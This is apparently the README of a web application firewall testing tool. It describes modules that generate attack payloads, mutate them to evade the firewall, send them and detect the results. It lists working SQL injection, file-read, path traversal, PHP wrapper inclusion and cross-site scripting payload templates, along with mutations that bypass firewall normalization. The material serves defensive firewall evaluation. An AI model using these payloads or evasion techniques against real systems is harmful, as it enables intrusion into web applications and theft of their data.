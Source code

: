WAF Testing Tool
================

When one finds a vulnerability in source code of a web application using white box approach one of the challenges that may arise is to bypass a web application firewall. Speaking about bypass methods, it is important for a web application firewall not only to have an extensive list of signatures that can block the vast majority of attacks but also to be immune to various evasion techniques by properly normalizing input data. For the sake of comprehensive web application firewall testing it is not enough just to use web application vulnerability scanner. 

The proposed methodology makes use of attack payloads that are mutated in various ways. It allows to test web application firewalls more thoroughly.

The picture below demonstrates architecture of an application that had been developed to test and evaluate effectiveness of web application firewalls.

![architecture](http://i.imgur.com/myTosWE.png)

The main components of the application are:

- module that generates base payloads
- module that mutates payloads
- HTTP request sending module
- detection module

Base payload generation module loads patterns and generates a set of attack vectors.

Base payload is a vector that exploits a vulnerability in source code of a web application and which can be tracked in detector module depending on the result of exploitation. For example, for an SQL Injection successful exploitation can be confirmed by an SQL query structure modification.

Base payload pattern looks like as follows:

```
1 union {|all }select {version()|1|'AA'}, {database()|(select 1)|2} from {|dual|information_schema.tables}
```

All possible combinations of the base payload are generated, after that this set is passed to mutation module.

Examples of base payloads:

```
1 union select version(), 2 from dual 
1 union all select 'AA', (select 1) from information_schema.tables 
1 union select 1, 2
```

Mutation is a modification of the base payload which is aimed at bypassing data normalization routines implemented in web application firewall. Mutation should modify the base payload to be completely different however it should remain effective at the same time. Mutation module receives a set of generated base payloads and loads from the database mutation techniques specific for the particular vulnerability type. Each mutation has its subtype so that mutation module was able to operate with mutually exclusive mutation techniques. The list of mutation techniques was compiled using widely known WAF bypass techniques as well as methods based on our own experience.

After all mutations are generated the output set is passed to request sender.

Examples of mutations for SQL Injection:

- character case modification
- replacement of whitespace characters with its analogues
- replacement of operators with its analogues
- SQL query modification with the use of complex structures specific for particular RDBMS

As a result, for each base payload the following combinations could be generated:

```
1 union select version(), 2 from dual 
1%0BUnIoN%0BsElEcT%0BvErSiOn(),%0B2%0BfRoM%0BdUaL 
1 /*!12345UNION ALL SELECT VERSION(), 2 FROM*/ DUAL 
1--%0Aunion--%0Aselect--%0A@@`version`,--%0A3-1--%0Afrom--%0Adual
```

Overall number of mutations is over 50.
Overall number of mutation combinations of base payloads depending on the type of vulnerability varies from 1000 to 40000.

Request sender forms HTTP requests and transports them to the target web application through WAF. It also sends responses from the application to the detection module. HTTP requests are formed in such a way so that they could cover all attack vector channels such as urlencoded POST data, multipart, parameter names, etc. Attack vectors are injected into:

- GET, POST, Cookie parameters
- GET, POST, Cookie array indeces
- HTTP headers
- Contents, Content-Type and filename of uploaded file

Overall number of attack requests is about 500000.

Detection module processes responses that were received from request sender module. Finally, it makes decision and adds it to the final report.

Base payloads that are used:

```
1 union select {version()|1111111111|'AAAAAAAA'}, {222222222|database()|(select user())|'BBBBBBBBBBBBB'} {|from information_schema.tables} 

1 and {1=1|99=99|98{!=|<>}97} 

(-1)union(select({1|load_file('/etc/passwd')}),{(2)|(id)from(news)|(user)from(mysql.user){|having(user)like('root')}}) 

1 union select * from (select 11)a join (select {22|user from mysql.user})b {|into {outfile|dumpfile} '/blah/blah/testfilename'} 

(select*from(select name_const('123',1),name_const('123',1))a) 

ExtractValue(1,concat(0x5c,'123')) 

(select count(*) from {mysql.user|information_schema.tables|news|(select 1 union select 2 union select 3)x} group by concat('123',floor(rand(0)*2))) 

(@:=1)||@ group by concat('123',@:=@-1)having @||min(@:=0) 

1 into {outfile|dumpfile} '/blah/blah/blahfilenameblah' lines terminated by 'payload' 

data:,<?php echo 123; ?> 

php://input 
 
php://filter{|/blah/blah/blah}/{zlib.deflate|read=zlib.deflate|convert.base64-encode|read=convert.base64-encode|read}{|/blah/blah/blah}/resource=longfilenameindexblah{|.php|.txt|.png} 

{http{|s}://|ftp://username:password@}site.com/{|folder1/|folder2/folder3/}filenameblah{.php|.txt|.gif} 

{|file://}{/../../../../../..}{/aaaaaaaaaaaaaaaaaaaa/../../../../../..|..........................................................................|././././././././././././././././././././././././././././.}{/etc/{passwd|hosts}|/proc/version} 

{|file://}{/../../../../../..}{/aaaaaaaaaaaaaaaaaaaa/../../../../../..|..........................................................................|././././././././././././././././././././././././././././.}/boo{t.ini|<<|>>>>} 

<script blah>123</script blah> 

<script blah src="{http{:|://}site.com/blah|data:,123}" blah>blah</script blah> 

<{a|abbr|acronym|address|applet|area|b|base|basefont|bdo|big|blockquote|body|br|button|caption|center|cite|code|col|colgroup|dd|del|dfn|dir|div|dl|dt|em|fieldset|font|form|frame|frameset|head|h1|h2|h3|h4|h5|h6|hr|html|i|iframe|img|input|ins|kbd|label|legend|li|link|map|menu|meta|noframes|noscript|object|ol|optgroup|option|p|param|pre|q|s|samp|script|select|small|span|strike|strong|style|sub|sup|table|tbody|td|textarea|tfoot|th|thead|title|tr|tt|u|ul|var} blah {onload|onunload|onblur|onchange|onfocus|onreset|onselect|onsubmit|onabort|onkeydown|onkeypress|onkeyup|onclick|ondblclick|onmousedown|onmousemove|onmouseout|onmouseover|onmouseup}=123 blah> 

<a href="{javascript:123|data:,123}">test</a> 

+ADw-script+AD4-123+ADw-/script+AD4-
```
